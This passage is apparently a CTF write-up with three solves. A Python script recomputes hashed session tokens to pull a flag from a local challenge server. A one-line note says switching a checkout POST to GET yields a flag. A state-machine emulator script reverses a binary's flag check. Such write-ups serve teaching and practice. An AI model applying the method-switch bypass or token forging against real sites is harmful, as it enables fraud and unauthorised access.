- **Stage 5 (/flag)** A final POST request with a final_token (derived from hashing all previously generated session secrets) yields the flag.
    
    solve script
    

```python
import requests
import hashlib
import base64
import sys

# --- Configuration ---
BASE_URL = "http://127.0.0.1:8080"

def generate_auth_token(session_id, challenge_type, difficulty, timestamp):
    data_to_hash = f"{session_id}{challenge_type}{difficulty}{timestamp}".encode('utf-8')
    digest = hashlib.sha256(data_to_hash).digest()
    b_arr = bytearray(16)
    for i in range(16):
        b_unsigned = (digest[i] ^ digest[i + 16]) ^ (i * 7) & 0xff
        b_signed = b_unsigned - 256 if b_unsigned > 127 else b_unsigned
        rotated_b = ((b_signed >> 5) | (b_unsigned << 3)) & 0xff
        b_arr[i] = rotated_b
    return base64.b64encode(b_arr).decode('utf-8')[:24]

def calculate_challenge_response(session_id, challenge_type, difficulty, timestamp):
    data_to_hash = f"{session_id}{difficulty}{challenge_type}{timestamp}CHALLENGE".encode('utf-8')
    digest = hashlib.sha256(data_to_hash).digest()
    result_bytes = bytearray(8)
    for i in range(8):
        result_bytes[i] = (digest[i] ^ digest[i + 8] ^ digest[i + 16] ^ digest[i + 24]) & 0xff
    return result_bytes.hex()

def calculate_verification_code(session_id, partial_flag, timestamp):
    data_to_hash = f"{session_id}{partial_flag}{timestamp}VERIFICATION".encode('utf-8')
    digest = hashlib.sha256(data_to_hash).digest()
    charset = "0123456789abcdefghijklmnopqrstuvwxyz"
    code = ""
    for i in range(8):
        index = digest[i] % 36
        code += charset[index]
    return code

def generate_final_token(session_id, partial_flag, verification_code, timestamp):
    data_to_hash = f"{session_id}{partial_flag}{verification_code}{timestamp}FINAL".encode('utf-8')
    digest = hashlib.sha256(data_to_hash).digest()
    return base64.b64encode(digest).decode('utf-8')[:32]

def solve_challenge():
    sess = requests.Session()
    print("[+] Stage 1: Initializing session...")
    init_res = sess.get(f"{BASE_URL}/init").json()
    session_id = init_res['session_id']
    challenge_type = init_res['challenge_type']
    difficulty = init_res['difficulty']
    print(f"  - Session ID: {session_id}")
    print(f"  - Challenge Type: {challenge_type}")
    print(f"  - Difficulty: {difficulty}")

    status_res = sess.get(f"{BASE_URL}/status", params={'session_id': session_id}).json()
    timestamp = status_res['timestamp']
    print(f"\n[+] Using single timestamp for all calculations: {timestamp}")

    print("\n[+] Stage 2: Authenticating session...")
    auth_token = generate_auth_token(session_id, challenge_type, difficulty, timestamp)
    print(f"  - Calculated Auth Token: {auth_token}")
    auth_payload = {'session_id': session_id, 'auth_token': auth_token}
    auth_res = sess.get(f"{BASE_URL}/authenticate", params=auth_payload).json()
    if auth_res.get('status') == 'authenticated':
        print("  - Authentication successful!")
    else:
        print("  - Authentication FAILED:", auth_res); return

    print("\n[+] Stage 3: Solving first challenge...")
    challenge_response = calculate_challenge_response(session_id, difficulty, challenge_type, timestamp)
    print(f"  - Calculated Challenge Response: {challenge_response}")
    challenge_payload = {'session_id': session_id, 'response': challenge_response}
    challenge_res = sess.get(f"{BASE_URL}/challenge", params=challenge_payload).json()
    if challenge_res.get('status') == 'challenge_completed':
        print("  - Challenge successful!")
    else:
        print("  - Challenge FAILED:", challenge_res); return
        
    print("\n[+] Stage 4: Solving verification challenge...")
    

    base_string = f"CRACCON{{obscurax_network_master_{challenge_type}_{difficulty}"
    partial_flag = base_string[:-1] + "_"

    print(f"  - Calculated Partial Flag: {partial_flag}")
    verification_code = calculate_verification_code(session_id, partial_flag, timestamp)
    print(f"  - Calculated Verification Code: {verification_code}")
    verify_payload = {'session_id': session_id, 'verification_code': verification_code}
    verify_res = sess.get(f"{BASE_URL}/verify", params=verify_payload).json()
    if verify_res.get('status') == 'verified':
        print("  - Verification successful!")
    else:
        print("  - Verification FAILED:", verify_res); return
        
    print("\n[+] Stage 5: Retrieving the flag...")
    final_token = generate_final_token(session_id, partial_flag, verification_code, timestamp)
    print(f"  - Calculated Final Token: {final_token}")
    flag_payload = {'session_id': session_id, 'final_token': final_token}
    flag_res = sess.get(f"{BASE_URL}/flag", params=flag_payload).json()
    
    if flag_res.get('status') == 'success':
        print("\n" + "="*40)
        print("  FLAG FOUND: ", flag_res['flag'])
        print("="*40)
    else:
        print("  - Flag retrieval FAILED:", flag_res); return

if __name__ == "__main__":
    solve_challenge()
```

# Method Madness

just changing the post request to buy a product during checkout to a get request gives us our flag


# Flatearth

wrote an emulator and asked gemini to parse the states from the function and here is the result

```python
import ctypes

def to_signed_byte(n):
    return ctypes.c_int8(n).value

def solve_state_machine():
    states = {
    0x2515: {'op': 'add_xor', 'idx': 23, 'k1': 66, 'k_check': 244, 'pc_next': 0x93cd},
    0x93cd: {'op': 'add_xor', 'idx': 0, 'k1': 113, 'k_check': 38, 'pc_next': 0xaf69},
    0xaf69: {'op': 'add_xor', 'idx': 10, 'k1': 128, 'k_check': 218, 'pc_next': 0x837e},
    0x837e: {'op': 'sub_xor', 'idx': 18, 'k1': 7, 'k_check': 174, 'pc_next': 0x2b18},
    0x2b18: {'op': 'add_xor_eqz', 'idx': 26, 'k1': 223, 'k_check': 1, 'pc_next': 0x62f0},
    0x62f0: {'op': 'xor_add', 'idx': 20, 'k1': 18, 'k_check': 112, 'pc_next': 0x6889},
    0x6889: {'op': 'sub_xor', 'idx': 11, 'k1': 138, 'k_check': 118, 'pc_next': 0xa4d2},
    0xa4d2: {'op': 'xor_add', 'idx': 14, 'k1': 58, 'k_check': 62, 'pc_next': 0x30ba},
    0x30ba: {'op': 'xor_add', 'idx': 23, 'k1': 65, 'k_check': 139, 'pc_next': 0x8737},
    0x8737: {'op': 'add_xor', 'idx': 12, 'k1': 217, 'k_check': 103, 'pc_next': 0xa0ec},
    0xa0ec: {'op': 'xor_add', 'idx': 23, 'k1': 16, 'k_check': 35, 'pc_next': 0xb5e},
    0xb5e: {'op': 'add_xor', 'idx': 23, 'k1': 169, 'k_check': 62, 'pc_next': 0x6f42},
    0x6f42: {'op': 'xor_add', 'idx': 17, 'k1': 42, 'k_check': 139, 'pc_next': 0xccd6},
    0xccd6: {'op': 'xor_add', 'idx': 28, 'k1': 44, 'k_check': 17, 'pc_next': 0x29d7},
    0x29d7: {'op': 'sub_xor', 'idx': 4, 'k1': 92, 'k_check': 242, 'pc_next': 0xd451},
    0xd451: {'op': 'add_xor', 'idx': 10, 'k1': 88, 'k_check': 126, 'pc_next': 0xc7d1},
    0xc7d1: {'op': 'add_xor', 'idx': 5, 'k1': 43, 'k_check': 198, 'pc_next': 0x15},
    0x15: {'op': 'add_xor', 'idx': 23, 'k1': 69, 'k_check': 127, 'pc_next': 0x8732},
    0x8732: {'op': 'xor_add', 'idx': 1, 'k1': 7, 'k_check': 20, 'pc_next': 0x4d67},
    0x4d67: {'op': 'xor_add', 'idx': 24, 'k1': 27, 'k_check': 102, 'pc_next': 0x3170},
    0x3170: {'op': 'add_xor', 'idx': 27, 'k1': 110, 'k_check': 181, 'pc_next': 0x5efd},
    0x5efd: {'op': 'sub_xor', 'idx': 29, 'k1': 114, 'k_check': 35, 'pc_next': 0xba1b},
    0xba1b: {'op': 'xor_add', 'idx': 8, 'k1': 70, 'k_check': 139, 'pc_next': 0x1c84},
    0x1c84: {'op': 'sub_xor', 'idx': 18, 'k1': 97, 'k_check': 59, 'pc_next': 0xe214},
    0xe214: {'op': 'add_xor', 'idx': 9, 'k1': 86, 'k_check': 241, 'pc_next': 0x9a08},
    0x9a08: {'op': 'add_xor', 'idx': 28, 'k1': 72, 'k_check': 23, 'pc_next': 0xedda},
    0xedda: {'op': 'add_xor', 'idx': 0, 'k1': 219, 'k_check': 161, 'pc_next': 0x23f9},
    0x23f9: {'op': 'sub_xor', 'idx': 15, 'k1': 251, 'k_check': 214, 'pc_next': 0x5651},
    0x5651: {'op': 'add_xor', 'idx': 16, 'k1': 42, 'k_check': 20, 'pc_next': 0x3177},
    0x3177: {'op': 'add_xor', 'idx': 0, 'k1': 30, 'k_check': 105, 'pc_next': 0xfe10},
    0xfe10: {'op': 'xor_add', 'idx': 30, 'k1': 49, 'k_check': 69, 'pc_next': 0x42b7},
    0x42b7: {'op': 'add_xor', 'idx': 20, 'k1': 147, 'k_check': 55, 'pc_next': 0x9855},
    0x9855: {'op': 'sub_xor', 'idx': 25, 'k1': 202, 'k_check': 15, 'pc_next': 0xab51},
    0xab51: {'op': 'add_xor', 'idx': 30, 'k1': 168, 'k_check': 36, 'pc_next': 0x20ac},
    0x20ac: {'op': 'xor_add', 'idx': 6, 'k1': 63, 'k_check': 137, 'pc_next': 0xdfa0},
    0xdfa0: {'op': 'add_xor', 'idx': 2, 'k1': 186, 'k_check': 80, 'pc_next': 0xe52a},
    0xe52a: {'op': 'xor_add', 'idx': 17, 'k1': 40, 'k_check': 55, 'pc_next': 0x9a52},
    0x9a52: {'op': 'sub_xor', 'idx': 29, 'k1': 62, 'k_check': 237, 'pc_next': 0x8d6e},
    0x8d6e: {'op': 'sub_xor', 'idx': 30, 'k1': 244, 'k_check': 132, 'pc_next': 0x5d30},
    0x5d30: {'op': 'sub_xor', 'idx': 17, 'k1': 65, 'k_check': 100, 'pc_next': 0x1fd},
    0x1fd: {'op': 'xor_add', 'idx': 6, 'k1': 48, 'k_check': 58, 'pc_next': 0x392c},
    0x392c: {'op': 'sub_xor', 'idx': 6, 'k1': 253, 'k_check': 49, 'pc_next': 0xc621},
    0xc621: {'op': 'sub_xor', 'idx': 15, 'k1': 136, 'k_check': 53, 'pc_next': 0x170e},
    0x170e: {'op': 'sub_xor', 'idx': 13, 'k1': 57, 'k_check': 56, 'pc_next': 0xb077},
    0xb077: {'op': 'sub_xor', 'idx': 4, 'k1': 190, 'k_check': 107, 'pc_next': 0xa65d},
    0xa65d: {'op': 'xor_add', 'idx': 1, 'k1': 40, 'k_check': 65, 'pc_next': 0x1b8f},
    0x1b8f: {'op': 'sub_xor', 'idx': 4, 'k1': 135, 'k_check': 89, 'pc_next': 0x759c},
    0x759c: {'op': 'xor_add', 'idx': 16, 'k1': 64, 'k_check': 113, 'pc_next': 0x29a8},
    0x29a8: {'op': 'sub_xor', 'idx': 21, 'k1': 97, 'k_check': 98, 'pc_next': 0x4e6b},
    0x4e6b: {'op': 'add_xor', 'idx': 30, 'k1': 51, 'k_check': 236, 'pc_next': 0xd035},
    0xd035: {'op': 'sub_xor', 'idx': 25, 'k1': 224, 'k_check': 154, 'pc_next': 0x31a9},
    0x31a9: {'op': 'sub_xor', 'idx': 8, 'k1': 65, 'k_check': 117, 'pc_next': 0x73c1},
    0x73c1: {'op': 'sub_xor', 'idx': 26, 'k1': 72, 'k_check': 13, 'pc_next': 0x27db},
    0x27db: {'op': 'xor_add', 'idx': 18, 'k1': 66, 'k_check': 126, 'pc_next': 0xed76},
    0xed76: {'op': 'xor_add', 'idx': 7, 'k1': 21, 'k_check': 26, 'pc_next': 0x6849},
    0x6849: {'op': 'add_xor', 'idx': 30, 'k1': 5, 'k_check': 146, 'pc_next': 0xaf57},
    0xaf57: {'op': 'xor_add', 'idx': 30, 'k1': 90, 'k_check': 73, 'pc_next': 0x4e08},
    0x4e08: {'op': 'xor_add', 'idx': 18, 'k1': 39, 'k_check': 159, 'pc_next': 0xed7a},
    0xed7a: {'op': 'sub_xor', 'idx': 14, 'k1': 119, 'k_check': 90, 'pc_next': 0x81f},
    0x81f: {'op': 'sub_xor', 'idx': 5, 'k1': 103, 'k_check': 140, 'pc_next': 0xa72a},
    0xa72a: {'op': 'add_xor', 'idx': 9, 'k1': 59, 'k_check': 195, 'pc_next': 0xb4ea},
    0xb4ea: {'op': 'xor_add', 'idx': 15, 'k1': 14, 'k_check': 197, 'pc_next': 0xc9},
    0xc9: {'op': 'sub_xor', 'idx': 11, 'k1': 238, 'k_check': 191, 'pc_next': 0x94ff},
    0x94ff: {'op': 'sub_xor', 'idx': 5, 'k1': 132, 'k_check': 212, 'pc_next': 0x151},
    0x151: {'op': 'xor_add', 'idx': 14, 'k1': 52, 'k_check': 218, 'pc_next': 0xe0bc},
    0xe0bc: {'op': 'xor_add', 'idx': 18, 'k1': 88, 'k_check': 67, 'pc_next': 0x4242},
    0x4242: {'op': 'add_xor', 'idx': 29, 'k1': 149, 'k_check': 50, 'pc_next': 0xb459},
    0xb459: {'op': 'sub_xor', 'idx': 28, 'k1': 131, 'k_check': 71, 'pc_next': 0xe6c4},
    0xe6c4: {'op': 'xor_add', 'idx': 14, 'k1': 20, 'k_check': 73, 'pc_next': 0x2646},
    0x2646: {'op': 'xor_add', 'idx': 12, 'k1': 11, 'k_check': 133, 'pc_next': 0xbf3},
    0xbf3: {'op': 'add_xor', 'idx': 25, 'k1': 53, 'k_check': 194, 'pc_next': 0x1119},
    0x1119: {'op': 'xor_add', 'idx': 1, 'k1': 67, 'k_check': 243, 'pc_next': 0xb49e},
    0xb49e: {'op': 'sub_xor', 'idx': 2, 'k1': 162, 'k_check': 48, 'pc_next': 0xcc53},
    0xcc53: {'op': 'add_xor', 'idx': 8, 'k1': 149, 'k_check': 3, 'pc_next': 0x22c8},
    0x22c8: {'op': 'sub_xor', 'idx': 8, 'k1': 233, 'k_check': 116, 'pc_next': 0x521},
    0x521: {'op': 'add_xor', 'idx': 8, 'k1': 32, 'k_check': 250, 'pc_next': 0xd20e},
    0xd20e: {'op': 'xor_add', 'idx': 1, 'k1': 69, 'k_check': 205, 'pc_next': 0x93bd},
    0x93bd: {'op': 'add_xor', 'idx': 8, 'k1': 46, 'k_check': 29, 'pc_next': 0xca47},
    0xca47: {'op': 'xor_add', 'idx': 1, 'k1': 43, 'k_check': 154, 'pc_next': 0xfb3a},
    0xfb3a: {'op': 'xor_add', 'idx': 29, 'k1': 53, 'k_check': 51, 'pc_next': 0x162},
    0x162: {'op': 'add_xor', 'idx': 15, 'k1': 13, 'k_check': 170, 'pc_next': 0xccce},
    0xccce: {'op': 'sub_xor', 'idx': 7, 'k1': 63, 'k_check': 16, 'pc_next': 0x7742},
    0x7742: {'op': 'sub_xor', 'idx': 29, 'k1': 7, 'k_check': 171, 'pc_next': 0xac7b},
    0xac7b: {'op': 'add_xor', 'idx': 23, 'k1': 36, 'k_check': 59, 'pc_next': 0x92a4},
    0x92a4: {'op': 'add_xor', 'idx': 26, 'k1': 148, 'k_check': 255, 'pc_next': 0xcf60},
    0xcf60: {'op': 'add_xor', 'idx': 22, 'k1': 150, 'k_check': 185, 'pc_next': 0xd232},
    0xd232: {'op': 'add_xor', 'idx': 15, 'k1': 179, 'k_check': 158, 'pc_next': 0x9968},
    0x9968: {'op': 'add_xor', 'idx': 27, 'k1': 151, 'k_check': 132, 'pc_next': 0xd616},
    0xd616: {'op': 'sub_xor', 'idx': 1, 'k1': 160, 'k_check': 178, 'pc_next': 0xf2bc},
    0xf2bc: {'op': 'add_xor', 'idx': 1, 'k1': 17, 'k_check': 53, 'pc_next': 0x7ee2},
    0x7ee2: {'op': 'sub_xor', 'idx': 30, 'k1': 193, 'k_check': 121, 'pc_next': 0x7e44},
    0x7e44: {'op': 'add_xor', 'idx': 23, 'k1': 126, 'k_check': 147, 'pc_next': 0x40ed},
    0x40ed: {'op': 'add_xor', 'idx': 2, 'k1': 146, 'k_check': 102, 'pc_next': 0xba0d},
    0xba0d: {'op': 'xor_add', 'idx': 6, 'k1': 85, 'k_check': 93, 'pc_next': 0xc30},
    0xc30: {'op': 'xor_add', 'idx': 16, 'k1': 19, 'k_check': 72, 'pc_next': 0x8988},
    0x8988: {'op': 'xor_add', 'idx': 10, 'k1': 27, 'k_check': 151, 'pc_next': 0x9e21},
    0x9e21: {'op': 'add_xor', 'idx': 23, 'k1': 143, 'k_check': 132, 'pc_next': 0xd30d},
    0xd30d: {'op': 'sub_xor', 'idx': 19, 'k1': 79, 'k_check': 94, 'pc_next': 0x33b},
    0x33b: {'op': 'sub_xor', 'idx': 23, 'k1': 155, 'k_check': 113, 'pc_next': 0x3b47},
    0x3b47: {'op': 'add_xor', 'idx': 24, 'k1': 121, 'k_check': 169, 'pc_next': 0x681f},
    0x681f: {'op': 'xor_add', 'idx': 8, 'k1': 11, 'k_check': 218, 'pc_next': 0x304},
    0x304: {'op': 'xor_add', 'idx': 16, 'k1': 28, 'k_check': 206, 'pc_next': 0x14a},
    0x14a: {'op': 'add_xor', 'idx': 22, 'k1': 234, 'k_check': 20, 'pc_next': 0xc936},
    0xc936: {'op': 'xor_add', 'idx': 12, 'k1': 33, 'k_check': 72, 'pc_next': 0xba73},
    0xba73: {'op': 'sub_xor', 'idx': 13, 'k1': 114, 'k_check': 102, 'pc_next': 0x7752},
    0x7752: {'op': 'xor_add', 'idx': 20, 'k1': 74, 'k_check': 131, 'pc_next': 0xba30},
    0xba30: {'op': 'xor_add', 'idx': 14, 'k1': 85, 'k_check': 70, 'pc_next': 0x4bf5},
    0x4bf5: {'op': 'sub_xor', 'idx': 27, 'k1': 25, 'k_check': 200, 'pc_next': 0xb95b},
    0xb95b: {'op': 'xor_add', 'idx': 29, 'k1': 75, 'k_check': 247, 'pc_next': 0x8255},
    0x8255: {'op': 'xor_add', 'idx': 8, 'k1': 12, 'k_check': 157, 'pc_next': 0x4942},
    0x4942: {'op': 'sub_xor', 'idx': 24, 'k1': 254, 'k_check': 192, 'pc_next': 0x2214},
    0x2214: {'op': 'xor_add', 'idx': 18, 'k1': 65, 'k_check': 50, 'pc_next': 0x8e2f},
    0x8e2f: {'op': 'add_xor', 'idx': 28, 'k1': 135, 'k_check': 39, 'pc_next': 0x60fe},
    0x60fe: {'op': 'sub_xor', 'idx': 20, 'k1': 27, 'k_check': 211, 'pc_next': 0xf41c},
    0xf41c: {'op': 'xor_add', 'idx': 21, 'k1': 44, 'k_check': 233, 'pc_next': 0x6013},
    0x6013: {'op': 'add_xor', 'idx': 13, 'k1': 239, 'k_check': 242, 'pc_next': 0x6216},
    0x6216: {'op': 'sub_xor', 'idx': 10, 'k1': 232, 'k_check': 86, 'pc_next': 0x9bbb},
    0x9bbb: {'op': 'xor_add', 'idx': 21, 'k1': 12, 'k_check': 68, 'pc_next': 0xc3d9},
    0xc3d9: {'op': 'sub_xor', 'idx': 20, 'k1': 139, 'k_check': 110, 'pc_next': 0x2d55},
    0x2d55: {'op': 'xor_add_eqz', 'idx': 21, 'k1': 42, 'k_check': 42, 'pc_next': 0xcdf2},
    0xcdf2: {'op': 'xor_add', 'idx': 3, 'k1': 39, 'k_check': 112, 'pc_next': 0xb143},
    0xb143: {'op': 'xor_add', 'idx': 28, 'k1': 59, 'k_check': 89, 'pc_next': 0xb7b},
    0xb7b: {'op': 'xor_add', 'idx': 0, 'k1': 35, 'k_check': 93, 'pc_next': 0x60c},
    0x60c: {'op': 'sub_xor', 'idx': 30, 'k1': 110, 'k_check': 142, 'pc_next': 0x3127},
    0x3127: {'op': 'add_xor', 'idx': 4, 'k1': 206, 'k_check': 63, 'pc_next': 0x4290},
    0x4290: {'op': 'xor_add', 'idx': 12, 'k1': 64, 'k_check': 76, 'pc_next': 0x8f17},
    0x8f17: {'op': 'xor_add', 'idx': 13, 'k1': 74, 'k_check': 194, 'pc_next': 0x44a1},
    0x44a1: {'op': 'add_xor', 'idx': 21, 'k1': 243, 'k_check': 195, 'pc_next': 0x9258},
    0x9258: {'op': 'add_xor', 'idx': 16, 'k1': 11, 'k_check': 32, 'pc_next': 0x8f28},
    0x8f28: {'op': 'xor_add', 'idx': 12, 'k1': 98, 'k_check': 117, 'pc_next': 0xfe1},
    0xfe1: {'op': 'xor_add', 'idx': 14, 'k1': 74, 'k_check': 81, 'pc_next': 0xaede},
    0xaede: {'op': 'add_xor', 'idx': 29, 'k1': 76, 'k_check': 249, 'pc_next': 0x89db},
    0x89db: {'op': 'add_xor', 'idx': 25, 'k1': 108, 'k_check': 7, 'pc_next': 0x12fb},
    0x12fb: {'op': 'xor_add', 'idx': 29, 'k1': 15, 'k_check': 114, 'pc_next': 0x4133},
    0x4133: {'op': 'add_xor', 'idx': 15, 'k1': 197, 'k_check': 35, 'pc_next': 0x438a},
    0x438a: {'op': 'xor_add', 'idx': 3, 'k1': 77, 'k_check': 141, 'pc_next': 0xa81d},
    0xa81d: {'op': 'sub_xor', 'idx': 15, 'k1': 5, 'k_check': 28, 'pc_next': 0x8f52},
    0x8f52: {'op': 'sub_xor', 'idx': 22, 'k1': 27, 'k_check': 247, 'pc_next': 0x4ade},
    0x4ade: {'op': 'sub_xor', 'idx': 25, 'k1': 18, 'k_check': 151, 'pc_next': 0x7e64},
    0x7e64: {'op': 'add_xor', 'idx': 12, 'k1': 111, 'k_check': 165, 'pc_next': 0xf4d4},
    0xf4d4: {'op': 'add_xor', 'idx': 13, 'k1': 196, 'k_check': 29, 'pc_next': 0xe413},
    0xe413: {'op': 'sub_xor', 'idx': 7, 'k1': 182, 'k_check': 20, 'pc_next': 0xe19c},
    0xe19c: {'op': 'add_xor', 'idx': 18, 'k1': 157, 'k_check': 216, 'pc_next': 0x6e09},
    0x6e09: {'op': 'sub_xor', 'idx': 19, 'k1': 171, 'k_check': 206, 'pc_next': 0xc56a},
    0xc56a: {'op': 'add_xor', 'idx': 18, 'k1': 88, 'k_check': 167, 'pc_next': 0x8200},
    0x8200: {'op': 'xor_add', 'idx': 7, 'k1': 96, 'k_check': 60, 'pc_next': 0x8f06},
    0x8f06: {'op': 'sub_xor', 'idx': 1, 'k1': 46, 'k_check': 228, 'pc_next': 0x9fae},
    0x9fae: {'op': 'sub_xor', 'idx': 5, 'k1': 113, 'k_check': 4, 'pc_next': 0x83a2},
    0x83a2: {'op': 'sub_xor', 'idx': 28, 'k1': 169, 'k_check': 63, 'pc_next': 0x4561},
    0x4561: {'op': 'sub_xor', 'idx': 14, 'k1': 126, 'k_check': 179, 'pc_next': 0x629c},
    0x629c: {'op': 'sub_xor', 'idx': 26, 'k1': 156, 'k_check': 31, 'pc_next': 0x78cf},
    0x78cf: {'op': 'sub_xor', 'idx': 16, 'k1': 174, 'k_check': 25, 'pc_next': 0xf117},
    0xf117: {'op': 'sub_xor', 'idx': 16, 'k1': 198, 'k_check': 119, 'pc_next': 0xd8da},
    0xd8da: {'op': 'sub_xor', 'idx': 4, 'k1': 152, 'k_check': 140, 'pc_next': 0xa47e},
    0xa47e: {'op': 'xor_add', 'idx': 17, 'k1': 8, 'k_check': 219, 'pc_next': 0x2c15},
    0x2c15: {'op': 'add_xor', 'idx': 17, 'k1': 169, 'k_check': 147, 'pc_next': 0x23fb},
    0x23fb: {'op': 'add_xor', 'idx': 9, 'k1': 12, 'k_check': 243, 'pc_next': 0xd6ec},
    0xd6ec: {'op': 'xor_add', 'idx': 12, 'k1': 48, 'k_check': 240, 'pc_next': 0x4ba3},
    0x4ba3: {'op': 'sub_xor', 'idx': 26, 'k1': 85, 'k_check': 149, 'pc_next': 0x7718},
    0x7718: {'op': 'sub_xor', 'idx': 27, 'k1': 203, 'k_check': 235, 'pc_next': 0x4f2f},
    0x4f2f: {'op': 'add_xor', 'idx': 1, 'k1': 36, 'k_check': 121, 'pc_next': 0xe90a},
    0xe90a: {'op': 'sub_xor', 'idx': 4, 'k1': 197, 'k_check': 211, 'pc_next': 0x39f0},
    0x39f0: {'op': 'sub_xor', 'idx': 10, 'k1': 192, 'k_check': 95, 'pc_next': 0x8393},
    0x8393: {'op': 'add_xor', 'idx': 28, 'k1': 92, 'k_check': 145, 'pc_next': 0xdbec},
    0xdbec: {'op': 'sub_xor', 'idx': 1, 'k1': 202, 'k_check': 213, 'pc_next': 0xf889},
    0xf889: {'op': 'xor_add', 'idx': 3, 'k1': 26, 'k_check': 208, 'pc_next': 0x3852},
    0x3852: {'op': 'xor_add', 'idx': 15, 'k1': 100, 'k_check': 8, 'pc_next': 0x6b81},
    0x6b81: {'op': 'add_xor', 'idx': 28, 'k1': 242, 'k_check': 132, 'pc_next': 0xbaf0},
    0xbaf0: {'op': 'add_xor', 'idx': 7, 'k1': 76, 'k_check': 179, 'pc_next': 0xcf83},
    0xcf83: {'op': 'sub_xor', 'idx': 7, 'k1': 109, 'k_check': 85, 'pc_next': 0x5cad},
    0x5cad: {'op': 'sub_xor', 'idx': 15, 'k1': 209, 'k_check': 48, 'pc_next': 0x7e2c},
    0x7e2c: {'op': 'xor_add', 'idx': 3, 'k1': 47, 'k_check': 130, 'pc_next': 0xd08f},
    0xd08f: {'op': 'sub_xor', 'idx': 3, 'k1': 26, 'k_check': 5, 'pc_next': 0x9e1f},
    0x9e1f: {'op': 'xor_add', 'idx': 27, 'k1': 49, 'k_check': 161, 'pc_next': 0xd8d7},
    0xd8d7: {'op': 'add_xor', 'idx': 14, 'k1': 118, 'k_check': 101, 'pc_next': 0x94b5},
    0x94b5: {'op': 'xor_add', 'idx': 17, 'k1': 6, 'k_check': 64, 'pc_next': 0xbf2d},
    0xbf2d: {'op': 'xor_add', 'idx': 3, 'k1': 72, 'k_check': 107, 'pc_next': 0x42c7},
    0x42c7: {'op': 'xor_add', 'idx': 12, 'k1': 91, 'k_check': 179, 'pc_next': 0xddcf},
    0xddcf: {'op': 'sub_xor', 'idx': 13, 'k1': 176, 'k_check': 207, 'pc_next': 0x78ee},
    0x78ee: {'op': 'add_only', 'idx': 6, 'k_check': 61, 'pc_next': 0x7b7f},
    0x7b7f: {'op': 'add_xor', 'idx': 9, 'k1': 135, 'k_check': 235, 'pc_next': 0x856a},
    0x856a: {'op': 'sub_xor', 'idx': 2, 'k1': 150, 'k_check': 28, 'pc_next': 0xb9e6},
    0xb9e6: {'op': 'xor_add', 'idx': 0, 'k1': 31, 'k_check': 158, 'pc_next': 0x67bd},
    0x67bd: {'op': 'sub_xor', 'idx': 13, 'k1': 150, 'k_check': 252, 'pc_next': 0x63f1},
    0x63f1: {'op': 'xor_add', 'idx': 18, 'k1': 80, 'k_check': 29, 'pc_next': 0xb84c},
    0xb84c: {'op': 'sub_xor', 'idx': 7, 'k1': 69, 'k_check': 231, 'pc_next': 0xfd16},
    0xfd16: {'op': 'add_xor', 'idx': 28, 'k1': 181, 'k_check': 224, 'pc_next': 0xffef},
    0xffef: {'op': 'xor_add', 'idx': 23, 'k1': 47, 'k_check': 195, 'pc_next': 0x6e53},
    0x6e53: {'op': 'sub_xor', 'idx': 6, 'k1': 184, 'k_check': 237, 'pc_next': 0xfc2c},
    0xfc2c: {'op': 'add_xor', 'idx': 2, 'k1': 91, 'k_check': 21, 'pc_next': 0xd639},
    0xd639: {'op': 'add_xor', 'idx': 8, 'k1': 236, 'k_check': 151, 'pc_next': 0x6e96},
    0x6e96: {'op': 'add_xor', 'idx': 29, 'k1': 79, 'k_check': 180, 'pc_next': 0x17cb},
    0x17cb: {'op': 'xor_add', 'idx': 19, 'k1': 3, 'k_check': 202, 'pc_next': 0xb05c},
    0xb05c: {'op': 'add_xor', 'idx': 23, 'k1': 58, 'k_check': 4, 'pc_next': 0x948e},
    0x948e: {'op': 'sub_xor', 'idx': 4, 'k1': 141, 'k_check': 44, 'pc_next': 0x22de},
    0x22de: {'op': 'xor_add', 'idx': 8, 'k1': 32, 'k_check': 106, 'pc_next': 0x1e3a},
    0x1e3a: {'op': 'xor_add', 'idx': 1, 'k1': 72, 'k_check': 96, 'pc_next': 0x2c13},
    0x2c13: {'op': 'xor_add', 'idx': 4, 'k1': 74, 'k_check': 77, 'pc_next': 0xf593},
    0xf593: {'op': 'add_xor', 'idx': 27, 'k1': 242, 'k_check': 48, 'pc_next': 0xc178},
    0xc178: {'op': 'sub_xor', 'idx': 11, 'k1': 190, 'k_check': 2, 'pc_next': 0x6bba},
    0x6bba: {'op': 'sub_xor', 'idx': 19, 'k1': 116, 'k_check': 251, 'pc_next': 0},
}
    flag = [0] * 31
    pc = 0x2515
    state = 0x42
    
    while pc != 0:
        if pc not in states:
            print(f"Error: Reached an undefined state! PC = {pc} (0x{pc:x})")
            break

        op = states[pc]
        op_type = op['op']
        idx = op['idx']
        k_check = op['k_check']

        char_val = 0
        if op_type == 'add_xor': 
            k1 = op['k1']
            char_val = (k_check ^ k1) - state
        elif op_type == 'sub_xor':
            k1 = op['k1']
            char_val = state - (k_check ^ k1)
        elif op_type == 'xor_add': 
            k1 = op['k1']
            char_val = (k_check - k1) ^ state
        elif op_type == 'add_only': 
            char_val = k_check - state
        elif op_type == 'add_xor_eqz': 
            k1 = op['k1']
            char_val = (1 ^ k1) - state
        elif op_type == 'xor_add_eqz': 
            k1 = op['k1']
            char_val = (0 - k1) ^ state
        
        flag[idx] = char_val & 0xFF
        state = to_signed_byte(k_check)
        pc = op['pc_next']
        
    return "".join(map(chr, flag))

if __name__ == "__main__":
    result = solve_state_machine()
    print(f"[*] Found flag: {result}")
```

running this results in craccon{f/4t34rth_1s_n0t_r0und} but binary does not accept it so a bit of guessing and we get

craccon{fl4t34rth_1s_n0t_r0und} which is also accepted by the binary and is the correct flag